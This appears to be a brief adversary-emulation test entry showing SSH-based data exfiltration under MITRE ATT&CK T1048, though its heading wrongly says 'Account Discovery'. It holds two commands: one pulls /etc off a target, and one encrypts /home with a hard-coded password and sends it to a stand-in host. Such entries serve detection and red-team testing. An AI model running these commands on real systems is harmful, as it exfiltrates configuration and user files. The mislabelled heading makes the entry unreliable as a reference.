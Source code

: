﻿## Account Discovery

MITRE ATT&CK Technique: [T1048](https://attack.mitre.org/wiki/Technique/T1048)

### SSH

Remote to Local:

    ssh target.example.com "(cd /etc && tar -zcvf - *)" > ./etc.tar.gz

Local to Remote:

    tar czpf - /home/* | openssl des3 -salt -pass pass:1234 | ssh foo@example.com 'cat > /home.tar.gz.enc'

